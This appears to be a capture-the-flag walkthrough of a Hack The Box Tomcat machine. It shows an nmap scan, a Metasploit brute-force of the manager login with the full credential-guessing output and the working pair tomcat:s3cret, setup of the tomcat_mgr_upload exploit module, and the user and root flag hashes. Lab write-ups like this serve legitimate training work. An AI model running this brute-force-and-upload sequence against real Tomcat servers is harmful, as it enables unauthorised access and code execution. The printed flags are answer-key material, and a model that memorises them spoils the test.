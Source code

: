 # How to solove ?

## add Lame to /etc/hosts
sudo vim /etc/hosts

## scan on nmap 
`nmap -sC -sV -sT -Pn  10.10.10.95`

<details><summary>nmap 実行結果</summary>   
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times will be slower.   
Starting Nmap 7.91 ( https://nmap.org ) at 2021-02-08 22:18 JST   
Nmap scan report for 10.10.10.95   
Host is up (0.26s latency).   
Not shown: 999 filtered ports   
PORT     STATE SERVICE VERSION   
8080/tcp open  http    Apache Tomcat/Coyote JSP engine 1.1   
|_http-favicon: Apache Tomcat   
|_http-open-proxy: Proxy might be redirecting requests   
|_http-server-header: Apache-Coyote/1.1   
|_http-title: Apache Tomcat/7.0.88   

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 35.38 seconds
</details>

###  Summary
PORT    STATE SERVICE     VERSION   
8080/tcp open  http    Apache Tomcat/Coyote JSP engine 1.1   

### tips
Tomcat /manager/html 管理画面?  
wordpress の/admin/login.php みたいなやつ?   

## try brute force
`python2 tomcat-brutepy`
Found valid credentials "tomcat:s3cret"

or 
`msfconsole`  
`use auxiliary/scanner/http/tomcat_mgr_login`  
`set RHOSTS 10.10.10.95`  
`exploit`  
<details><summary>exploit 実行結果</summary>   
[-] 10.10.10.95:8080 - LOGIN FAILED: admin:admin (Incorrect)   
[-] 10.10.10.95:8080 - LOGIN FAILED: admin:manager (Incorrect)   
[-] 10.10.10.95:8080 - LOGIN FAILED: admin:role1 (Incorrect)   
[-] 10.10.10.95:8080 - LOGIN FAILED: admin:root (Incorrect)   
[-] 10.10.10.95:8080 - LOGIN FAILED: admin:tomcat (Incorrect)   
[-] 10.10.10.95:8080 - LOGIN FAILED: admin:s3cret (Incorrect)   
[-] 10.10.10.95:8080 - LOGIN FAILED: admin:vagrant (Incorrect)   
[-] 10.10.10.95:8080 - LOGIN FAILED: manager:admin (Incorrect)   
[-] 10.10.10.95:8080 - LOGIN FAILED: manager:manager (Incorrect)   
[-] 10.10.10.95:8080 - LOGIN FAILED: manager:role1 (Incorrect)   
[-] 10.10.10.95:8080 - LOGIN FAILED: manager:root (Incorrect)   
[-] 10.10.10.95:8080 - LOGIN FAILED: manager:tomcat (Incorrect)   
[-] 10.10.10.95:8080 - LOGIN FAILED: manager:s3cret (Incorrect)   
[-] 10.10.10.95:8080 - LOGIN FAILED: manager:vagrant (Incorrect)   
[-] 10.10.10.95:8080 - LOGIN FAILED: role1:admin (Incorrect)   
[-] 10.10.10.95:8080 - LOGIN FAILED: role1:manager (Incorrect)   
[-] 10.10.10.95:8080 - LOGIN FAILED: role1:role1 (Incorrect)   
[-] 10.10.10.95:8080 - LOGIN FAILED: role1:root (Incorrect)   
[-] 10.10.10.95:8080 - LOGIN FAILED: role1:tomcat (Incorrect)   
[-] 10.10.10.95:8080 - LOGIN FAILED: role1:s3cret (Incorrect)   
[-] 10.10.10.95:8080 - LOGIN FAILED: role1:vagrant (Incorrect)   
[-] 10.10.10.95:8080 - LOGIN FAILED: root:admin (Incorrect)   
[-] 10.10.10.95:8080 - LOGIN FAILED: root:manager (Incorrect)   
[-] 10.10.10.95:8080 - LOGIN FAILED: root:role1 (Incorrect)   
[-] 10.10.10.95:8080 - LOGIN FAILED: root:root (Incorrect)   
[-] 10.10.10.95:8080 - LOGIN FAILED: root:tomcat (Incorrect)   
[-] 10.10.10.95:8080 - LOGIN FAILED: root:s3cret (Incorrect)   
[-] 10.10.10.95:8080 - LOGIN FAILED: root:vagrant (Incorrect)   
[-] 10.10.10.95:8080 - LOGIN FAILED: tomcat:admin (Incorrect)   
[-] 10.10.10.95:8080 - LOGIN FAILED: tomcat:manager (Incorrect)   
[-] 10.10.10.95:8080 - LOGIN FAILED: tomcat:role1 (Incorrect)   
[-] 10.10.10.95:8080 - LOGIN FAILED: tomcat:root (Incorrect)   
[-] 10.10.10.95:8080 - LOGIN FAILED: tomcat:tomcat (Incorrect)   
[+] 10.10.10.95:8080 - Login Successful: tomcat:s3cret   
[-] 10.10.10.95:8080 - LOGIN FAILED: both:admin (Incorrect)   
[-] 10.10.10.95:8080 - LOGIN FAILED: both:manager (Incorrect)   
[-] 10.10.10.95:8080 - LOGIN FAILED: both:role1 (Incorrect)   
[-] 10.10.10.95:8080 - LOGIN FAILED: both:root (Incorrect)   
[-] 10.10.10.95:8080 - LOGIN FAILED: both:tomcat (Incorrect)   
[-] 10.10.10.95:8080 - LOGIN FAILED: both:s3cret (Incorrect)   
[-] 10.10.10.95:8080 - LOGIN FAILED: both:vagrant (Incorrect)   
[-] 10.10.10.95:8080 - LOGIN FAILED: j2deployer:j2deployer (Incorrect)   
[-] 10.10.10.95:8080 - LOGIN FAILED: ovwebusr:OvW*busr1 (Incorrect)   
[-] 10.10.10.95:8080 - LOGIN FAILED: cxsdk:kdsxc (Incorrect)   
[-] 10.10.10.95:8080 - LOGIN FAILED: root:owaspbwa (Incorrect)   
[-] 10.10.10.95:8080 - LOGIN FAILED: ADMIN:ADMIN (Incorrect)   
[-] 10.10.10.95:8080 - LOGIN FAILED: xampp:xampp (Incorrect)   
[-] 10.10.10.95:8080 - LOGIN FAILED: QCC:QLogic66 (Incorrect)   
[-] 10.10.10.95:8080 - LOGIN FAILED: admin:vagrant (Incorrect)   
[*] Scanned 1 of 1 hosts (100% complete)   
[*] Auxiliary module execution completed   
</details>
## 

use exploit/multi/http/tomcat_mgr_upload
show options
set RHOSTS 10.10.10.95
set httppassword s3cret
set httpusername tomcat
set rport 8080

type "2 for the price of 1.txt"
user.txt
7004dbcef0f854e0fb401875f26ebd00

root.txt
04a8b36e1545a455393d067e772fe90e
